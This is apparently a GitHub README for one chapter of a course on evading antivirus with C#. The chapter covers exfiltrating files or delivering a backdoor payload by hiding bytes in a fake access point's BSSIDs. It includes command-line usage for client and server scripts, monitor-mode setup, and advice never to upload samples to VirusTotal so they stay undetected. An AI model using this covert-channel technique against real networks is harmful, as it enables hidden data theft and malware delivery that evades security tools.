 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 9 : Transferring Backdoor Payload by Wireless Traffic (BSSID)

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 9 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH9

Related Video : 

Video 1 C# Code : https://youtu.be/W0dJGln3tls

Video 2 Script Code : https://www.youtube.com/watch?v=i6Y5BmJXWko


Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

# NativePayload_BSSID.sh  help :

Example Step1: (Client Side ) ./NativePayload_BSSID.sh -f text-file Fake-AP-Name MonitorMode-Interface

Example Step2: (Server Side ) ./NativePayload_BSSID.sh -s wlanx Exfil-Dump-file

example System A : ./NativePayload_BSSID.sh -f mytext.txt myfakeAP Wlan3mon

example System B : ./NativePayload_BSSID.sh -s wlan0 ExfilDumped.txt

Description: with Step1 (system A) you will inject bytes for (mytext.txt) file to BSSID for Fake AP in this case (myfakeAP) , with Step2 on (system B) you can have this text file via Scanning Fake AP on AIR by Wireless traffic (Using iwlist tool)

Note : before step1 you should make MonitorMode Interface (WlanXmon) by this command for example : airmon-ng start wlan3


![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSID1.png)

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSID2.png)
